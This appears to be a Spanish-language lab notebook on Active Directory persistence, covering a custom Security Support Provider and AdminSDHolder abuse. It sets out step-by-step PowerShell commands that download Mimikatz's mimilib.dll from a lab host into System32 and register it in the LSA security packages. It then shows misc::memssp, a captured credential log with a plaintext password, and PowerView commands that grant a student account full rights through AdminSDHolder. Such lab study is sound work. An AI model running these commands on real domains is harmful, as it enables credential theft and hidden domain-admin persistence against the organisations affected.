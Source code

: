 ## Custom SSP -Security Support Provider
Es una dll que ofrece servicios de autenticación remota, algunos son NTLM, Kerberos...
Mimikatz ofrece una dll personalizada "mimilib.dll" y ofrece la posibilidad de ver en texto claro las credenciales en los logs.
### Hay dos metodos para conseguirlo:
Desde el DC como admins:
..* `IEX(New-Object System.Net.WebClient).DownloadFile('http://172.16.100.46/mimilib.dll', "C:\Windows\System32\mimilib.dll")`
..* `$packages = Get-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages'| select -ExpandProperty 'Security Packages'`
..* `$packages += "mimilib"`
..* `Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages`
..* `Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' -Value $packages`
Hay que reiniciar la máquina y comenzaria a logar los loggins. Se puede modificar la dll para que escriba los log en sysvol o algún sitio que sea completamente accesible para cualquier usuario y así no tener que volver a entrar para ver las credenciales.
---------------------------
Invoke-Mimikatz -Command '"misc::memssp"' --> Inestable en Windows Server 2016 sin necesidad de reiniciar.

Cuando salimos y volvemos a entrar podemos ver en el fichero:
type C:\Windows\System32\kiwissp.log 
[00000000:003f22c4] [00000004] dcorp\Administrator (Administrator)      *DollarMakesEveryoneHappy

## AdminSDHolder
AdminSDHolder es un contenedor en el dominio que se utiliza como plantilla para las ACL de los grupos más restrictivos como los administradores de dominio. Si conseguimos modificar los permisos de ese contenedor, de manera delegada tendremos los permisos sin necesidad de estar en el grupo de administradores de dominio.
Cada hora se compara la ACL de AdminSDHolder con la de los grupos sobre escribiendose la de los grupos.
POdemos hacerlo con powerview:
..* `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student46 -Rights All -Verbose` --> Control total
..* `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student46 -Rights ResetPassword -Verbose` --> Añadir permisos de resetear contraseñas
..* `Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student46 -Rights WriteMembers -Verbose` --> Añade permisos de añadir miembros a grupos

Con el modulo de ActiveDirectory:
..* `Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Principal student46 -Verbose`

Con el script Invoke-SDPropagator.ps1 forzamos la propagación de las ACl:
..* `Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose`

Vemos si realmente está en el grupo que lo hemos metido
..* `Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs | ?{$_.IdentityReference -match 'student46'}`
..* `Get-NetGroupMember -GroupName "Domain Admins"` --> No veremos al nuevo usuario y no podremos acceder con el al CD por ejemplo.
